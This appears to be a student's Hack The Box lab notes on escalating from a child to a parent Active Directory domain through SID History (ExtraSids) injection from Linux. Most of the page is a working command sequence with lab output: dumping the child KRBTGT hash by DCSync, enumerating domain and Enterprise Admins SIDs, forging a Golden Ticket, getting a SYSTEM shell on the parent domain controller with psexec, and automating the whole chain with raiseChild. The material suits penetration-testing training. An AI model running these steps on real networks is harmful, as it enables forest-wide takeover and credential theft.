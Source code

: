 
## Overview
- **Context**: Escalate from child to parent domain in same forest via ExtraSids (SID History injection) using Linux tools (Impacket).
- **Goal**: Forge Golden Ticket with Enterprise Admins (EA) SID from parent; gain forest-wide access without membership.
- **Requirements**: Same as Windows version (KRBTGT NT hash, child SID, target user (fake OK), child FQDN, parent EA SID).
- **Automation**: raiseChild.py handles full process; manual for control/troubleshooting.
- **Warnings**: Avoid "autopwn" scripts in prod; understand manual steps. Rotate KRBTGT post-compromise.
- **Tools**: Impacket (secretsdump.py, lookupsid.py, ticketer.py, psexec.py, raiseChild.py).

## Requirements for ExtraSids (Child -> Parent)
We can also perform the attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

## Gathering Data
- **KRBTGT NT Hash (Child)**: DCSync via secretsdump.py (needs child admin creds).
  ```
  secretsdump.py CHILD_DOMAIN/ADMIN_USER@CHILD_DC_IP -just-dc-user CHILD_DOMAIN/krbtgt
  ```
  - Example: 
	```
	  secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
	```
  - Output: NTLM hash (e.g., 9d765b482771505cbe97411065964d5f).
- **Child Domain SID**: SID brute via lookupsid.py.
  ```
  lookupsid.py CHILD_DOMAIN/ADMIN_USER@CHILD_DC_IP | grep "Domain SID"
  ```
  - Example: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"`
  - Output: e.g., S-1-5-21-2806153819-209893948-922872689
  - Full brute: Shows RIDs (e.g., 500: Administrator); combine SID-RID for full user SIDs.
- **Parent EA SID**: lookupsid.py on parent DC; grep for Enterprise Admins.
  ```
  lookupsid.py CHILD_DOMAIN/ADMIN_USER@PARENT_DC_IP | grep -B12 "Enterprise Admins"
  ```
  - Example: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`
  - Output: Parent SID (e.g., S-1-5-21-3842939050-3880317879-2865463114) + RID 519 for EA.
  - Well-known RIDs: 519 (Enterprise Admins), etc.
- **Other Data**: Target user (e.g., "hacker" - fake OK); Child FQDN (e.g., LOGISTICS.INLANEFREIGHT.LOCAL).
- 
- ## Looking for the Domain SID

```bash
z3tssu@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain `SID S-1-5-21-3842939050-3880317879-2865463114` and attach the RID of the Enterprise Admins group. [Here](https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

## Grabbing the Domain SID & Attaching to Enterprise Admin's RID

```bash
z3tssu@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user `hacker` to forge our Golden Ticket.

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

## Manual Attack Execution
- **Forge Golden Ticket**: [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) with extra SID.
  ```
  ticketer.py -nthash CHILD_KRBTGT_NT -domain CHILD_FQDN -domain-sid CHILD_SID -extra-sid PARENT_EA_SID TARGET_USER
  ```
  - Example:
    ```
    ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
    ```
  - The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

- **Set Kerberos Cache**: For auth.
  ```
  export KRB5CCNAME=TARGET_USER.ccache
  ```
  - Example: `export KRB5CCNAME=hacker.ccache`
- **Test Access**: [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) for SYSTEM shell on parent DC.
  ```
  psexec.py CHILD_FQDN/TARGET_USER@PARENT_DC_FQDN -k -no-pass -target-ip PARENT_DC_IP
  ```
  - Example: `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`
  - Drops into SYSTEM shell; confirm with `whoami` / `hostname`.

## Automated Attack ([raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py))
- **Full Escalation**: From child admin to parent shell.
  ```
  raiseChild.py -target-exec PARENT_DC_IP CHILD_FQDN/CHILD_ADMIN_USER
  ```
  - Example: `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`
  - Workflow:
    1. Detect forest FQDN.
    2. Get parent EA SID.
    3. DCSync child KRBTGT.
    4. Forge Golden Ticket.
    5. DCSync parent (e.g., Administrator/krbtgt).
    6. psexec.py shell on parent DC (SYSTEM).
  - Options: -w (save ticket), -targetRID (custom RID, default 500 Admin), -target-exec (psexec target).
- **Output**: Hashes (child/parent KRBTGT, parent Admin); psexec shell.

## Key Tools (Impacket)
- **secretsdump.py**: DCSync for hashes.
- **lookupsid.py**: SID enumeration.
- **ticketer.py**: Golden Ticket forging.
- **psexec.py**: Remote shell.
- **raiseChild.py**: Automation (avoid in prod if possible; manual for control).
- **Tips**: Use child creds for initial access; fake users work; next: cross-forest trusts (bidirectional).
